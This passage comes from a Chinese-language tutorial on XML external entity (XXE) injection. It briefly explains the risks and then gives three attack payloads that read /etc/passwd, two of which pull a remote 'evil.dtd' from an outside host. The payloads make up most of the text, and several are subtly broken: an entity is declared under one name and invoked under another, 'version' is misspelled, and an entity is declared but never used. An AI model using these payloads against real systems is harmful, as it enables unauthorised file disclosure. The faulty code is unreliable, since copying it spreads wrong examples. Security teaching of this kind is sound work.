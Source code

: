 ## 0x02 XXE漏洞

XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

#### 举例

1. 恶意引入外部实体(1)



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<a>
        <value>&passwd;</value>
</a>
```

1. 恶意引入外部实体(2)



```jsx
**XML内容**
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
                <!ENTITY % f SYSTEM "http://www.m03.com/evil.dtd">
                %d;
]>
<aaa>&b;</aaa>
```

**DTD文件内容**



```bash
<!ENTITY b SYSTEM "file:///etc/passwd">
```

1. 恶意引入外部实体(3)

**XML文件内容**



```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
                <!ENTITY f SYSTEM "http://www.m03.com/evil.dtd">
]>
<a>&b;</a>
```

**DTD文件内容**



```bash
<!ENTITY b SYSTEM "file:///etc/passwd">
```
